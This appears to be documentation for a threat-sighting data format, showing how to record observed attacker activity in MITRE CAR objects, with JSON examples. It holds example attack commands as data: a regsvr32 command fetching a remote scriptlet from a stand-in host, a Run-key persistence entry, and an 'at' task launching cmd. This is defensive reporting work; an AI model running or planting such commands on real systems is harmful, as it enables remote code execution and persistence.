 <br></br>

## Formatting raw data

Each object in the list of raw data should consist of an object from the [CAR data model](https://car.mitre.org/data_model/) in the form of "object.action": {"field": "value"}.

For example:

**Command Line**:
```
"process.create": {"command_line": "regsvr32.exe /i:hxxp://lolbad.com scrobj.dll"}
```

**Registry Key**:
```
"registry.add": {
    "hive": "HKEY_CURRENT_USER",
    "key": "\Software\Microsoft\Windows\CurrentVersion\Run",
    "value": "bad.exe"
}
```

More complete examples are also below. If something isn't expressible in the CAR data model as-is, just make up an object and action that makes sense to you and we'll figure it out.
<br><br>
## Examples

#### Simple Technique Sighting
A managed service provider monitors sensor data across its customer base. During that monitoring, an analytic flags a Sysmon process event that indicates a scheduled task is being created using "at".

```
{
  "version": "1.0",
  "id": "DT-1234",
  "sighting_type": "direct_technique",
  "start_time": "2019-01-01T08:12:00Z",
  "end_time": "2019-01-01T08:12:00Z",
  "detection_type": "human_validated",
  "techniques": [
    {
      "technique_id": "T1088",
      "start_time": "2019-01-01T08:12:00Z",
      "end_time": "2019-01-01T08:12:00Z",
      "platform": "Windows 10",
      "raw_data": [
        { "process.create": {"command_line": "at 13:30 /interactive cmd"} }
      ]
    }
  ]
}
```
